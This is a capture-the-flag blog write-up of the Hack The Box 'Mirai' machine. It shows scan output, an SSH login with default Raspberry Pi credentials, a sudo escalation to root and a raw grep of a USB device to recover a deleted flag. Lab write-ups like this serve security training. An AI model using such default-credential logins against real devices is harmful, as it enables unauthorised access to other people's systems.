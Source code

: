 ```yaml
---
layout: post
title:  "HTB Mirai Machine Writeup"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```

Cool box based off a cool concept that swept the earth.

# Nmap scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```
# Dirsearch results
```
[04:08:05] 200 -   61B  - /AccessPlatform/auth/clientscripts/cookies.js
[04:08:05] 200 -   61B  - /AccessPlatform/auth/clientscripts/login.js
[04:08:09] 301 -    0B  - /admin  ->  http://10.10.10.48/admin/
[04:08:10] 200 -   61B  - /admin.js
[04:09:11] 200 -   14KB - /admin/?/login
[04:09:11] 200 -   14KB - /admin/
[04:09:11] 200 -   14KB - /admin/index.php
[04:09:42] 200 -   61B  - /Brocfile.js
[04:09:42] 200 -   61B  - /brunch-config.js
[04:09:47] 200 -   61B  - /Citrix/AccessPlatform/auth/clientscripts/cookies.js
[04:09:48] 200 -   61B  - /Citrix/AccessPlatform/auth/clientscripts/login.js
[04:10:11] 200 -   61B  - /Gruntfile.js
[04:10:11] 200 -   61B  - /gulpfile.js
[04:10:33] 200 -   61B  - /mimosa-config.js
[04:11:10] 200 -   61B  - /swfobject.js
[04:11:20] 200 -   61B  - /v1/test/js/console_ajax.js
```

# Getting user
Mirai was a botnet that abused iot devices with default credentials. We can try this too since the webapp leaks what the box might be.
```
ssh pi@10.10.10.48 : raspberry (default)
```
We can get our user flag.

# Getting root
A sudo check shows us the first part to getting root.
```
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

Reading root.txt we get the following message.
```
“”root.txt"" = 'I lost my original root.txt! I think I may have a backup on my USB stick...'
```

We can use df to check system devices for external media.
```
We use the df command in unix to check system devices
/dev/sdb            8887      93      8078   2% /media/usbstick
mounted to /dev/sdb

root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```
ahhhhhh more steps. Lets just grep out the filesystem for a flag.
```
grep -a -B 35 -A 120 'root' /dev/sdb
```
Finally we get our flag
